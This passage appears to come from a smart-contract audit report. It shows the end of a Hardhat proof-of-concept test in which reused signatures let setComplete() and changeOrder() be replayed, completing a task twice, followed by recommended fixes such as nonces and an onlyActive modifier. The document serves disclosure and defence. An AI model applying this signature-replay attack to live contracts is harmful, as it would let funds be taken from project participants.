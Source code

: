 ```typescript



    tx = await project.setComplete(setCompleteSignedData[0], setCompleteSignedData[1]);
    await expect(tx).to.emit(project, 'TaskComplete').withArgs(taskID);

    await changeCost(changeToNewSignedData[0], changeToNewSignedData[1]);
    await changeCost(changeBackToOldSignedData[0], changeBackToOldSignedData[1]);

    await (await project.connect(originalSCSigner).acceptInviteSC([taskID])).wait();
    await project.allocateFunds();

    tx = await project.setComplete(setCompleteSignedData[0], setCompleteSignedData[1]);
    await expect(tx).to.emit(project, 'TaskComplete').withArgs(taskID);
    
    async function signData(data: DataType) {
      let contractor = await project.contractor();
      let builder = await project.builder();
      let taskDetails = await project.getTask(taskID);
      let sc = taskDetails.subcontractor;
      // console.log({ contractor, builder, sc })

      let changeSignersAddress = [contractor, sc];
      let contractorDelegated = await project.contractorDelegated();
      if (!contractorDelegated) {
        changeSignersAddress.unshift(builder);
      }
      changeSignersAddress = changeSignersAddress.filter(x => x !== ethers.constants.AddressZero);
      const dataSigners = changeSignersAddress.map(signer => getSignerByAddress(signers, signer));

      // console.log({ changeSignersAddress })
      return await multisig(data, dataSigners);
    }

    async function changeCost(encodedData: string, signature: string) {
      const tx = await project.changeOrder(encodedData, signature);
      tx.wait();
      // await expect(tx).to.emit(project, 'ChangeOrderSC');
    }
  });

```

## Tools Used
Hardhat

## Recommended Mitigation Steps

* Use nonce to protect `setComplete()` and `changeOrder()` from signatures reuse
* Add the `onlyActive()` modifier to `Tasks.unApprove()`
* Consider limiting `allocateFunds()` for builder only (this is not necessary to resolve the bug, just for hardening security)